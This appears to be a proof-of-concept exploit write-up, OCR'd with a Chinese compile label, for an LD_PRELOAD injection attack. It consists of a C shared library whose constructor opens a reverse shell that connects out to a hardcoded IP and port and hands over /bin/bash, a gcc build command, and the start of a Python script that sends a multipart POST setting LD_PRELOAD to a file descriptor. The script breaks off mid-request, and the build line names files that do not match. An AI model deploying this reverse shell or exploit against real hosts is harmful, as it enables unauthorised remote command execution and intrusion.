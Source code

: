 poc2.c

```c
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<netinet/in.h>

char *server_ip="10.30.1.112";
uint32_t server_port=7777;

static void reverse_shell(void) __attribute__((constructor));
static void reverse_shell(void)
{
  int sock = socket(AF_INET, SOCK_STREAM, 0);
  struct sockaddr_in attacker_addr = {0};
  attacker_addr.sin_family = AF_INET;
  attacker_addr.sin_port = htons(server_port);
  attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
  if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
    exit(0);
  dup2(sock, 0);
  dup2(sock, 1);
  dup2(sock, 2);
  execve("/bin/bash", 0, 0);
}
```

编译：

gcc -s -shared -fPIC ./payload.c -o payload.so `gcc hack.c -fPIC -shared -o poc.so`

```py
import sys
import socket
import ssl
import random
from urllib.parse import urlparse, ParseResult

PAYLOAD_MAX_LENGTH = 16384 - 200


def exploit(client, parts: ParseResult, payload: bytes):
    path = '/' if not parts.path else parts.path
    boundary = '----%s' % str(random.randint(1000000000000, 9999999999999))
    padding = 'a' * 2000
    content_length = min(len(payload) + 500, PAYLOAD_MAX_LENGTH)
    data = fr'''POST {path} HTTP/1.1
Host: {parts.hostname}
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary={boundary}
Content-Length: {content_length}

--{boundary}
Content-Disposition: form-data; name="LD_PRELOAD";

/proc/self/fd/7
--{boundary}
Content-Disposition: form-data; name="data"; filename="1.txt"
Content-Type: text/plain

```